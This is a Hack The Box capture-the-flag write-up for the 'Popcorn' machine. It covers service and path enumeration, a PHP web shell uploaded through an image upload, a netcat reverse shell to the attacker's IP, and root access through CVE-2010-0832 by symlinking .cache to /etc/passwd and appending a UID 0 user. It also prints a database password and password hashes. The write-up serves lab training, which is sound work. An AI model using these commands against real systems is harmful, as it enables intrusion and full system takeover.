

# Popcorn

## Machine Info


## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
|_http-title: Did not follow redirect to http://popcorn.htb/
|_http-server-header: Apache/2.2.12 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.17 (96%), Linux 2.6.17 - 2.6.36 (96%), Linux 2.6.32 (96%), Linux 2.6.35 (96%), Linux 2.4.20 (Red Hat 7.2) (95%), AVM FRITZ!Box FON WLAN 7240 WAP (95%), Android 2.3.5 (Linux 2.6) (95%), Linux 2.6.30 (95%), Canon imageRUNNER ADVANCE C3320i or C3325 copier (94%), Epson WF-2660 printer (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: popcorn.hackthebox.gr; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- subdomain recon -> nothing
- path recon

  - `test` -> phpinfo

  - `torrent` -> web page about torrent files

  - `rename` -> api to change file name

```console
$ gobuster dir -u http://popcorn.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://popcorn.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47361]
/torrent              (Status: 301) [Size: 312] [--> http://popcorn.htb/torrent/]
/rename               (Status: 301) [Size: 311] [--> http://popcorn.htb/rename/]
Progress: 1273833 / 1273834 (100.00%)
===============================================================
Finished
===============================================================
```

- victim's local path: `Warning: rename(old_file_path_an_name,new_file_path_and_name/) [function.rename]: No such file or directory in /var/www/rename/index.php on line 4` -> `/var/www/rename`, `/var/www/torrent`
- `http://popcorn.htb/test/` -> **phpinfo** -> **file upload** is ok


## Foothold

### Upload File

- web recon: torrent hoster `http://popcorn.htb/torrent/index.php?mode=about`


- user register


- upload a torrent file -> not exploitable


- upload an **image** file -> exploitable


- filename: `http://popcorn.htb/torrent/thumbnail.php?gd=2&src=./upload/5afea4a13805186f5a7aa8fa1762fc14ffb68ac7.jpg&maxw=96` and file location: `http://popcorn.htb/torrent/upload/`

- **EXP Process**: upload a php file -> visit using web's upload directory -> rshell command -> shell


- POC: `http://popcorn.htb/torrent/upload/5afea4a13805186f5a7aa8fa1762fc14ffb68ac7.php?cmd=id`



- which nc -> yes -> `?cmd=nc 10.10.14.39 1234 -e /bin/bash`


## Privilege Escalation

- mysql recon -> cred -> web admin password hash -> uncrackable

```console
www-data@popcorn:/var/www/torrent$ cat config.php | grep -B5 -A5 -i pass
cat config.php | grep -B5 -A5 -i pass
  //Edit This For TORRENT HOSTER Database
  //database configuration
  $CFG->host = "localhost";
  $CFG->dbName = "torrenthoster";       //db name
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";   //db password

        $dbhost         = $CFG->host;
        $dbuser         = $CFG->dbUserName;
        $dbpass         = $CFG->dbPassword;
        $database       = $CFG->dbName;
        
mysql> select userName,password,privilege from users;
select userName,password,privilege from users;
+----------+----------------------------------+-----------+
| userName | password                         | privilege |
+----------+----------------------------------+-----------+
| Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     |
| abcd     | e2fc714c4727ee9395f324cd2e7f331f | user      |
| qwe      | c4ca4238a0b923820dcc509a6f75849b | user      |
+----------+----------------------------------+-----------+
3 rows in set (0.00 sec)
```

- unusual file recon -> `motd.legal-displayed` priv esca -> **CVE-2010-0832**

```console
www-data@popcorn:/home/george$ find . -type f -ls
    76    4 -rw-r--r--   1 george   george        220 Mar 17  2017 ./.bash_logout
    82    4 -rw-r--r--   1 george   george       3180 Mar 17  2017 ./.bashrc
 42885  832 -rw-r--r--   1 george   george     848727 Mar 17  2017 ./torrenthoster.zip
 42883    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.cache/motd.legal-displayed
 42884    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.sudo_as_admin_successful
  2210    4 -rw-r--r--   1 george   george         33 Dec 29 05:45 ./user.txt
   107    4 -rw-r--r--   1 george   george        675 Mar 17  2017 ./.profile
```

### Script Exploit of CVE-2010-0832

**PAM_MOTD** (aka the MOTD module) in libpam-modules before 1.1.0-2ubuntu1.1 in PAM on Ubuntu 9.10 and libpam-modules before 1.1.1-2ubuntu5 in PAM on Ubuntu 10.04 LTS allows local users to change the ownership of arbitrary files via a symlink attack on .cache in a user's home directory, related to "user file stamps" and the motd.legal-notice file.

environment is suitable:

```console
www-data@popcorn:/home/george$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=9.10
DISTRIB_CODENAME=karmic
DISTRIB_DESCRIPTION="Ubuntu 9.10"
```

- [pam_motd (aka the MOTD module) in libpam-modules before 1... · CVE-2010-0832 · GitHub Advisory Database](https://github.com/advisories/GHSA-3m5q-4mj3-9362)
- [Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2) - Linux local Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/14339)


### Manual Exploit of CVE-2010-0832

**Kernel Point**: sshd is on and ssh-keygen is usable -> when login in as ssh, the ~/.cache would be created and setted as login_user's ownership.

e.g. When a link file ~/.cache is linked to /etc/passwd and www-data logins in using ssh, /etc/passwd's ownership would be www-data:www-data. Then, a root priv line could be add into /etc/passwd to create a root-like user.

- prepare ssh login

```console
www-data@popcorn:/var/www$ mkdir .ssh
www-data@popcorn:/var/www$ ssh-keygen -q -t rsa -N '' -C 'qwe'
Enter file in which to save the key (/var/www/.ssh/id_rsa): 
www-data@popcorn:/var/www$ ls .ssh/
id_rsa  id_rsa.pub
www-data@popcorn:/var/www$ cp .ssh/id_rsa.pub .ssh/authorized_keys
www-data@popcorn:/var/www$ chmod 600 .ssh/authorized_keys 
```

- creata a symbolic link file `~/.cache` to `/etc/passwd`

```console
www-data@popcorn:/var/www$ ln -s /etc/passwd .cache
www-data@popcorn:/var/www$ ls -la .cache 
lrwxrwxrwx 1 www-data www-data 11 Jun 21 22:04 .cache -> /etc/passwd
```

- after logining using www-data's private rsa key, `/etc/passwd` belongs to www-data

```console
www-data@popcorn:/var/www$ ls -l /etc/passwd
-rw-r--r-- 1 www-data www-data 1031 Mar 17  2017 /etc/passwd
www-data@popcorn:/var/www$ echo 'qwe:$1$qwe$D95bkH3CwpH6ffYU7pu0m/:0:0:root:/root:/bin/bash' >> /etc/passwd
```

- generate a root-like user line


```sh
# generate a user line
openssl passwd -1 -salt qwe qwe > hash.txt
# Append this line into passwd file
echo 'qwe:$1$qwe$D95bkH3CwpH6ffYU7pu0m/:0:0:root:/root:/bin/bash' >> /etc/passwd
```

- su to change to qwe

```console
www-data@popcorn:/var/www$ su - qwe
Password: 
root@popcorn:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Exploit Chain

port recon -> path recon -> phpinfo = file upload ok -> torrent web page -> user register -> torrent upload -> image file upload exploit -> www-data shell -> enum: motd.legal-displayed -> linux pam priv esca -> root shell
